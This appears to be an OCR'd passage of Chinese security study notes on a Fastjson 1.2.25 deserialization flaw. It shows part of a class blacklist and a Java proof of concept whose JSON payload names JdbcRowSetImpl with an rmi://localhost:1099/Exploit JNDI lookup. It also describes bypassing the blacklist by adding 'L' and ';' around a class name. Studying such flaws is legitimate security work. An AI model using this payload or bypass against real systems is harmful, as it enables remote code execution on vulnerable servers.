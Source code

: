 ```java
16 = "org.codehaus.groovy.runtime"

17 = "org.hibernate"

18 = "org.jboss"

19 = "org.mozilla.javascript"

20 = "org.python.core"

21 = "org.springframework"
```

⽩名单默认情况下为空

## poc

```java
import com.alibaba.fastjson.JSON;
import com.sun.rowset.JdbcRowSetImpl;
public class java1_2_25 {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过

在指定的类名开头加上 L 结尾加上 ;  能够成功绕过⿊名单的验证，问题出

在 TypeUtils.loadClass 。

com.alibaba.fastjson.parser.ParserConfig#checkAutoType

![image-20210813170227439](Fastjson2/image-20210813170227439.png)

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)
